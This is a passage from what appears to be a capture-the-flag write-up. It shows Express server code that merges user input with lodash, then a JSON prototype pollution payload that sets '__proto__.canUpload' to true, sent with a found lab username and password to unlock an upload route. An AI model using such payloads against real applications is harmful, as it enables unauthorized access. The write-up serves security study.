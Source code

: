 

    app.put('/', (req, res) => {   
      const user = findUser(req.body.auth || {});

      if (!user) {                                 
        res.status(403).send({ok: false, error: 'Access denied'});
        return;
      }

      const message = {
        icon: '__',
      };

      _.merge(message, req.body.message, {
        id: lastId++,
        timestamp: Date.now(),
        userName: user.name,
      });

      messages.push(message);
      res.send({ok: true});
    });



It is running a `merge` on `message` and `req.body.message`. I want to
get my pollution payload into `req.body.message`. Looking at
`src/js/app.js`, the PUT to `/` has a body of:



    data: JSON.stringify({"auth": {"name": "felamos", "password": "Winter2021"}, "message": {"text": message}})



I'll need a valid user to get by `if (!user)`, but I have that. The
payload (with spacing) will be:



    {
      "auth": {
        "name": "felamos", 
        "password": "Winter2021"
      }, 
      "message": {
        "test": "something",
        "__proto__": {
            "canUpload": true
        }
      }
    }



I'll do the prototype pollution attack, and now I can access the
`upload` route:

